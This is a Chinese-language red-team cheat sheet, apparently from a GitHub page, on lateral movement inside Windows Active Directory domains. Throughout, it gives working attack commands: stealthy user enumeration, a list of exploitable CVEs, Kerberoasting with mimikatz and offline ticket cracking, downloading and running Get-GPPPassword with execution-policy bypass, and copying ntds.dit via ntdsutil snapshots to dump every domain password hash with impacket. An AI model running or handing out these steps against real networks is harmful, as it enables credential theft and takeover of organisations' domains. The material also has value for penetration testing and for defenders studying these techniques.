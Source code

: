 ```yaml
---
title: 【红队】横向移动之--域渗透
---
```


# 定位目标

> 域内查询用户信息的两种比较安全的方法

**1、LDAP（推荐）**

目前针对LDAP的安全检测相对较少，不容易被安全设备发现

```bash
(&(objectCategory=person)(objectClass=user))	#LDAP查询所有域用户

#等价于 net user /domain
```

**2、SAMR**

平时用的`net user /domain` 就是使用`samr`进行查询的 

 `impacket` 工具包里面有一个脚本`samrdump.py`就是专门调用samr 去查询域用户的 

```bash
python samrdump.py 域名/用户名:密码@IP -csv
```

详情参考： https://daiker.gitbook.io/windows-protocol/ldap-pian/10 

# 渗透目标

## 常见域控一把梭

先做遍全端口扫描，根据开放服务去选择攻击方向

```http
CVE-2014-6324	ms14_068,域内提权的利器
CVE-2017-0148	ms17_010,永恒之蓝
CVE-2018-8581 	Exchange任意用户伪造漏洞
CVE-2019-1040 	资源约束委派
CVE-2019-0708	RDP远程命令执行
CVE-2020-0688	Exchange远程代码执行
```

[结合 CVE-2019-1040 漏洞的两种域提权利用深度分析](https://paper.seebug.org/962/)

------

> 域控不好拿的话，就尝试找其它高价值目标，把各种内网常见漏洞走一遍流程

## 高价值目标

**Wiki**

人员架构、网络架构，VPN接入方式、初始密码、技术文档

**Git/Svn**

代码、运维脚本

**Mail**

`Exchange`直接利用特权打域控，或者通过`ruler`获取权限、确定人员结构、技术人员邮箱

**OA**

通达、泛微、致远

**堡垒机**

国产或开源堡垒机漏洞

**文件服务器**

常用文件投毒、密码文件

**重点关注**

1、弱口令

2、高危服务/开发环境

```http
Shrio、Weblogic、Structs 2、rmi、jdwp、Nfs、Ldap、Rsync、jenkis
```

3、常规Web漏洞

# Kerberoast攻击 

 `Kerberoast` 能够在不对目标系统发送任何数据的情况下用普通用户身份从活动目录中提取服务的账户凭证。

Empire的作者，给出了 一种自动实现，并且不需要mimikatz，普通用户权限即可的方法；

参考资料：http://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/ 

PS脚本：https://github.com/EmpireProject/Empire/commit/6ee7e036607a62b0192daed46d3711afc65c3921 

**一、发现服务（SPN扫描）**

```
#查看当前域内的所有SPN
setspn.exe -q */*
```

**二、请求服务票据（ TGS ）**

```bash
powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Server2003.wintrysec.lab"
```

**三、导出票据（mimikatz）**

```bash
mimikatz.exe "kerberos::list /export" exit
```

**四、离线破解**

域控组策略中设置`kerberos`加密方式为`RC4_HMAC_MD5`才能破解

https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py

```bash
python3 tgsrepcrack.py wordlist.txt mssql.kirbi
```

# 从SYSVOL和组策略首选项中获取密码

> 在域环境中微软的GPP（组策略偏好）中提供了一个批量修改本地账户的功能；
>
> 但是最初却导致了一个问题，就是域管理员在配置GPP的时候，会在SYSVOL这个文件夹中保存当前GPP配置的xml文件；
>
> 如果管理员在配置的时候填入了密码，其中就包含了加密了的用户密码，所有的认证用户都可以读取。

**使用Get-GPPPassword.ps1获取 SYSVOL中的XML文件** 

下载地址：https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1 

```bash
powershell -nop -exec bypass -c "& {Import-Module '.\Get-GPPPassword.ps1';Get-GPPPassword}"
```

然后，使用Kali中自带的工具解密一下即可看到铭文密码

```
gpp-decrypt na6Fd1SIwYIBRqFyg2PsNAbpgr1pVsnUOpX54/WLQbk
```

# 导出`ntds.dit`（已获取域控权限）

> `ntds.dit`是活动目录的数据库文件，存储着所有与活动目录相关的东西；
>
> 它与SAM一样是被系统锁定的，通过卷影拷贝导出`ntds.dit`，可以获取域内所有用户散列值。

## （一）通过ntdsutil.exe提取ntds.dit

`ntdsutil.exe`是一个为活动目录提供管理机制的命令行工具，默认安装在域控制器上。

**1、在域控制器中创建一个快照**

该快照包含Windows中的所有文件，复制文件时不会收到Windows锁定机制的影响。

```
ntdsutil snapshot "activate instance ntds" create quit quit
```

**2、加载刚创建的快照**

```
#GUID是创建快照后给出的快照IDntdsutil snapshot "mount {GUID}" quit quitntdsutil snapshot "mount {0041972c-9e24-4450-938a-d53d4fb19331}" quit quit
```

**3、使用`copy`命令将快照中的文件复制出来**

```
copy C:\$SNAP_时间戳（快照加载后给出的）\windows\ntds\ntds.dit c:\ntds.ditcopy C:\$SNAP_202005031519_VOLUMEC$\windows\ntds\ntds.dit c:\ntds.dit
```

**4、将之前的快照卸载并删除**

```
ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quitntdsutil snapshot "unmount {0041972c-9e24-4450-938a-d53d4fb19331}" "delete {0041972c-9e24-4450-938a-d53d4fb19331}" quit quit
```

**5、查看系统中的快照**

```
ntdsutil snapshot "List All" quit quit
```

**导出SYSTEM文件**

```
reg save hklm\system system.hive
```

## （2）使用impacket包导出散列值

 Github地址：https://github.com/SecureAuthCorp/impacket 

**在kali中安装impacket**

```
sudo python setup.py isntall
```

**本地导出ntds.dit中的散列值**

先把`system.hive`和`ntds.dit`复制到Kali中

```
impacket-secretsdump -system system.hive -ntds ntds.dit LOCAL
```